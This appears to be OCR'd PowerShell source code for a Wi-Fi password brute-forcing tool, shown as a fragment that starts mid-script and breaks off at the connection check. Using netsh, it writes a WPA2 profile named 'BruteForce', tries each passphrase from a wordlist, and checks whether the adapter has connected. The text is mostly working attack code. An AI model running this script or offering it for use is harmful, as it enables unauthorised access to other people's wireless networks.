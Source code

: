 ```netsh wlan show networks mode=bssid```
<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1">
   <name>BruteForce</name>
   <SSIDConfig>
      <SSID>
         <hex>------</hex>
         <name>------</name>
      </SSID>
   </SSIDConfig>
   <connectionType>ESS</connectionType>
   <connectionMode>auto</connectionMode>
   <MSM>
      <security>
         <authEncryption>
            <authentication>WPA2PSK</authentication>
            <encryption>AES</encryption>
            <useOneX>false</useOneX>
         </authEncryption>
         <sharedKey>
            <keyType>passPhrase</keyType>
            <protected>false</protected>
            <keyMaterial>------</keyMaterial>
         </sharedKey>
      </security>
   </MSM>
</WLANProfile>
'@
$ssidhex = ""
$ssid.ToCharArray() | foreach-object -process {$ssidhex += '{0:X}' -f [int][char]$_}
(((netsh wlan show interfaces) | out-string ).split("`r`n")).ForEach({
   if($_ -Like '*Name*')
   {
      $t = $_.Split(":")
      $wlan = $t[1].trim()
   }
})
if($wlan -eq $null)
{
   Write-Host "Could not identify the wireless adapter."
   Exit
}
foreach($key in $wordlist)
{
   if(Test-Path $xmlfile) {Remove-Item -Path "$xmlfile" -Force}
   ForEach($line in $($pxml -split "`r`n"))
   {
      $line = $line -Replace [regex]::Escape("<hex>------</hex>"),"<hex>$ssidhex</hex>"
      $line = $line -Replace [regex]::Escape("<name>------</name>"),"<name>$ssid</name>"
      $line = $line -Replace [regex]::Escape("<keyMaterial>------</keyMaterial>"),"<keyMaterial>$key</keyMaterial>"
      $line | Out-File "$xmlfile"
   }
   netsh wlan add profile filename="$xmlfile" | Out-Null
   netsh wlan connect name="BruteForce" interface="$wlan" | Out-Null
   Start-Sleep -s 4
   $state = ""
   (((netsh wlan show interfaces interface="$wlan") | out-string ).split("`r`n")).ForEach({
      if($_ -Like '*State*')
      {
         $t = $_.Split(":")
         $state = $t[1].trim()
      }
   })
   if($state -eq "connected")
```